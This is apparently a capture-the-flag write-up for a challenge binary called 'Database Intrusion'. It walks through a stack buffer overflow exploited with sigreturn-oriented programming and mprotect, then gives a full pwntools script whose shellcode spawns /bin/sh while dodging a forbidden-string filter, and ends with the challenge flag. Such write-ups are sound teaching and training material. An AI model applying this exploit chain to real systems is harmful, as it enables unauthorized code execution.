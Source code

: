 # Database Intrusion - Writeup

---

## Exploit Demo

This demo shows the full exploitation flow:

![Alt text](gif/DatabaseIntrusion.gif)

---

## Binary Inspection

We begin by examining the binary format and security properties.

### Step 1: Binary Format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Security Properties

```bash
$ pwn checksec main
```

Security summary:

- **Full RELRO**
- **No Stack Canary**
- **NX enabled**
- **PIE enabled**

![Alt text](img/2.png)

---

## Vulnerability Summary

The function `vuln()` contains a **buffer overflow** on a 64-byte buffer due to an unchecked `read()` call that reads **0x190 bytes**:

```c
char buf[64];
read(0, buf, 0x190);  // Vulnerable
```

Furthermore, a `check_forbidden()` function filters out strings such as `/bin/sh`, `ls`, `bash`, and more — preventing traditional `system("/bin/sh")` shellcode or command injection.

---

## Exploit Strategy

Due to the NX bit and forbidden string filter, we use **Sigreturn-Oriented Programming (SROP)** to:

1. Call `mprotect()` to mark the stack **RWX**.
2. Inject and execute a **custom shellcode** that avoids forbidden strings.

### Overview

1. **Leak PIE base** from `printf("%p:%p", buf, vuln)` in `vuln()`.
2. **Page-align the stack buffer** to use in `mprotect()`.
3. **Craft a SROP frame** that sets up a `mprotect` syscall to make stack executable.
4. **Inject shellcode** directly into the buffer.
5. **Jump to shellcode** after stack permissions are changed.

---

## Static Analysis

```c
int vuln() {
  _BYTE buf[64];
  printf(">> Secure channel established at %p:%p.\n", buf, vuln);
  read(0, buf, 0x190);
  check_forbidden(buf);
  return puts("Hint: You don't need ga\ndgets for rax!");
}
```

- `buf` and `vuln` addresses are leaked.
- `check_forbidden()` runs _after_ the overflow, so shellcode must not contain blocked substrings.
- Buffer is on the **stack**, so we need to **mprotect** it before execution.

---

## Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
exe = context.binary = ELF('./main')

def start(argv=[], *a, **kw):
    return process([exe.path] + argv, *a, **kw)

gdbscript = 'continue\n'

io = start()

# Leak buf and vuln addresses
io.recvuntil(b'>> Secure channel established at ')
leak_vals = io.recvline().split(b':')
buf_addr = int(leak_vals[0], 16)
vuln_addr = int(leak_vals[1].strip()[:-1], 16)

log.success(f"buf @ {hex(buf_addr)}")
log.success(f"vuln @ {hex(vuln_addr)}")

# Calculate PIE base
exe.address = vuln_addr - exe.sym['vuln']
log.success(f"PIE base @ {hex(exe.address)}")

# Set up ROP and gadgets
rop = ROP(exe)
syscall_gadget = rop.find_gadget(['syscall'])[0]

# Page-align stack address
page_size = 0x1000
aligned_stack = buf_addr & ~(page_size - 1)

# Create SigreturnFrame for mprotect
frame = SigreturnFrame()
frame.rax = 10                 # mprotect
frame.rdi = aligned_stack      # addr
frame.rsi = page_size          # len
frame.rdx = 7                  # PROT_READ | PROT_WRITE | PROT_EXEC
frame.rsp = buf_addr           # pivot back to shellcode
frame.rip = syscall_gadget     # syscall; ret

# Custom shellcode (no forbidden strings)
shellcode = asm('''
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f  # "//bin/sh"
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    mov al, 59                  # execve syscall
    syscall
''')

# Build payload
offset = 16
payload = p64(buf_addr + 8)         # new RIP (skip over dummy value)
payload += shellcode
payload += b'\x90' * (72 - len(payload))  # NOP padding
payload += p64(syscall_gadget)      # trigger sigreturn
payload += bytes(frame)             # actual frame

# Send payload
io.recvuntil(b'>> Root key required to proceed:\n')
io.sendline(payload)
io.interactive()
```

---

## Final Notes

- The SROP frame allows us to _bypass the NX bit_.
- The injected shellcode is carefully crafted to avoid any substrings checked by `check_forbidden()`.
- We pivot back into the shellcode via `rsp` in the frame after `mprotect()` succeeds.

---

## Result

After successful execution, a shell is spawned **without using any forbidden string**, granting control of the target system.

---

## Flag

```
RedPointer{X!r7v9-Kaleido.phs}
```

---

Let me know if you'd like a version with visuals (`img/`) or the Markdown exported as a `.md` file.
